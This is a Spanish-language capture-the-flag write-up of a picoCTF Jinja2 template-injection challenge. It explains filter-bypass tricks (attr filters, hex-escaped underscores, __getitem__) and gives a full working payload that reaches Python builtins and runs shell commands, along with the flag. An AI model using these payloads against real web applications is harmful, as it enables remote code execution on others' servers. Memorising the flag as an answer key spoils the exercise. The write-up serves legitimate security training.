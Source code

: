 ### Descripción

¡Hice un sitio web genial donde puedes anunciar lo que quieras! Leí sobre la desinfección de entradas, así que ahora elimino cualquier tipo de caracteres que puedan ser un problema :)¡Escuché que las plantillas son una forma genial y modular de crear aplicaciones web! ¡Echa un vistazo a mi sitio web [aquí](http://shape-facility.picoctf.net:56052/)!
### Solución

Ahora el sitio web se ha vuelto seguro a partir de simples cargas útiles y necesitamos eludir su protección. Uso de diferentes símbolos y nuevos comandos.

# **Técnicas clave de derivación**

1. Evitar la notación de puntos ('.') → utiliza '|attr()' para acceder dinámicamente a los atributos:  
  
request|attr('application')|attr("__globals__")  
  
— Omite los WAF que bloquean 'request.application.__globals__'.

> 2. Codificación hexadecimal ('\x5f') para guiones ('_')  
>   
> bajos "\x5f\x5fglobals\x5f\x5f"  
>   
> — Omite los filtros que bloquean '__globals__', '__builtins__' y '__import__'.
> 
> 3. Usando '__getitem__()' en lugar de '[]'  
> jinja2  
> |attr('__getitem__')('__builtins__')  
>   
> — Evade las protecciones que bloquean '__builtins__['__import__']'.

4. Jinja2 Sandbox Escape  
: accede a 'request.application.__globals__' para obtener las funciones integradas de Python.

> 5. RCE sin 'eval()' o 'exec()'  
>   
> __import__('os').popen('id').read()  
>   
> — Evita los bloqueos 'os.system()' y 'subprocess. Popen()'.

**Nuestra carga útil final:**

> {{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')("\x5f\x5fimport\x5f\x5f")('os')|attr('popen')('cat flag')|attr('read')()}}

### Bandera
picoCTF{sst1_f1lt3r_byp4ss_8b534b82}